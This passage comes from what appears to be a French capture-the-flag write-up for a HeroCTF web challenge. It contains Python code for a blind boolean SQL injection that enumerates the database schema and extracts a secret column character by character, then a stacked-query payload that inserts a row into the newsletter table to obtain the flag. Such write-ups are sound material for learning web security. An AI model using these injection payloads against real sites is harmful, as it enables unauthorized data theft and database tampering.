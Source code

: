 ```python
        if char != "%":
            guess = exfiltrated + char
            if tryPayload(f"SELECT 1 FROM dual where (SELECT ascii(substring((select secret from blackcat.newsletter limit 0,1),{len(exfiltrated)+1},1))={ord(char)}) != 0"):
                print(guess)
                brutePerChar(guess)

#brute('')
#brutePerChar('')
exit(1)
#select 1 from dual where database() like '{guess}%'  donne blackcat
#SELECT 1 FROM dual where (SELECT ascii(substring((SELECT table_name from information_schema.tables where table_schema=database() limit 0,1),{len(exfiltrated)+1},1))={ord(char)}) != 0 : donne newsletter
#SELECT 1 FROM dual where (SELECT ascii(substring((select column_name from information_schema.columns where table_name='newsletter' limit 0,1),{len(exfiltrated)+1},1))={ord(char)}) != 0 : donne email, secret, send_date,   

```
Petite subtilité, pour ne pas avoir d'erreur alors que ma requête passe, j'ajoute un nombre aléatoire dans mon email. Si on essaye d'ajouter une email qui existe déjà ça crash sinon...

J'obtiens comme base de données: blackcat, et une seule table: newsletter.
Structure de newsletter

|                |email                          |secret                          |send_date                         |
|----------------|-------------------------------|-------------------------------|-----------------------------|

J'ai essayé de faire une error based pour exfiltrer des données de newsletter. Malheureusement aucun SELECT sur newsletter ne fonctionnait .... Même un test simple de ``SELECT sleep(5) from newsletter`` par exemple.

Finalement j'ai compris qu'il fallait plutôt qu'on modifie notre send_date, pour cela, si on peut faire plusieurs requêtes SQL d'affilées (MULTI-STATEMENT), alors on peut insérer nos propres données dans newsletter librement.
J'ai donc fait ce script et testé avec des dates sous plusieurs formats (et plusieurs dates futures):
```python
email = f"ahahah{random.randint(0,1000000000)}"
date = "2023/05/21"
tryRawPayload(f"','okok');INSERT INTO newsletter (email,secret,send_date) VALUES('{email}', 'secret', '{date}');--")

url = f"https://blackcat.web.heroctf.fr/api/check.php?email={email}&secret=secret"
res = requests.get(url)
print(res.text)
```

La réponse: 
```
We are glad that you participate at this very hidden conference !<br>Conferences will take place at 'blackcatjnhhyaiolppiqnbsvvxgcifuelkzpalsm.onion'<br>Be sure to proof that you receive this email with this sentence : Hero{y0u_b34t_bl4ckc4t_0rg4n1z3rs!!}<br>BlackCat
```

